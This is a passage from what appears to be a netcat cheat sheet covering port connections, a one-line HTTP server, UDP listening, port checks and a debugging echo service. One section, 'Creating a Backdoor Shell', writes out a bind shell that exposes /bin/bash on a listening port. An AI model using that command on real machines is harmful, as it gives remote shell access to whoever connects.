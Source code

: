 ```
  nc -v [hostname] [port]

# Example: nc -v example.com 22

```
- **Creating a Simple Web Server**
```

# Serve a single file on HTTP port

  { echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat index.html; } | nc -l 80

```
- **Using Netcat for UDP**
```

# Listen on a UDP port

  nc -lu [port]

# Connect to a UDP port

  nc -u [hostname] [port]

```
- **Network Debugging**
```

# Using Netcat to test TCP connections, check if a port is open

  nc -zv [hostname] [port]

# Echo service to return what you type, useful for debugging

  nc -l -p [port] -e /bin/cat

```
- **Creating a Backdoor Shell**
```

# On the target machine, listen for a connection

  nc -lvp [port] -e /bin/bash

# On your machine, connect to the target

  nc [target IP address] [port]

```
## File and Disk Management
